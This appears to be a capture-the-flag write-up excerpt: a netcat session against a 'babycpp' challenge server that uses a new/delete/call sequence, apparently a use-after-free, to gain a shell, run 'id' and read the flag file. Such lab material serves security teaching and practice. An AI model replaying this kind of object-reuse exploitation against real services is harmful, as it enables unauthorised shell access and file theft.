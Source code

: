 ```
breadparty@ubuntu ~ nc 121.170.91.17 7777
There are two very vulnerable objects
And all type can be declared ( character, string, integer, etc.. )
You just do new, delete and call
[I]nteger
[D]ouble
[C]haracter
[V]ulnteer
[S]hell
[E]xit
>>> V
[N]ew
[C]all
[D]elete
>>> N
[I]nteger
[D]ouble
[C]haracter
[V]ulnteer
[S]hell
[E]xit
>>> V
[N]ew
[C]all
[D]elete
>>> D
[I]nteger
[D]ouble
[C]haracter
[V]ulnteer
[S]hell
[E]xit
>>> S
[N]ew
>>> N
Shell address: 0x560f0cf5b998
[I]nteger
[D]ouble
[C]haracter
[V]ulnteer
[S]hell
[E]xit
>>> V
[N]ew
[C]all
[D]elete
>>> C
id
uid=1000(babycpp) gid=1000(babycpp) groups=1000(babycpp)
cat /home/babycpp/flag
dimi{Cpp_1s_e@5y_and_d1ff1cult}
```
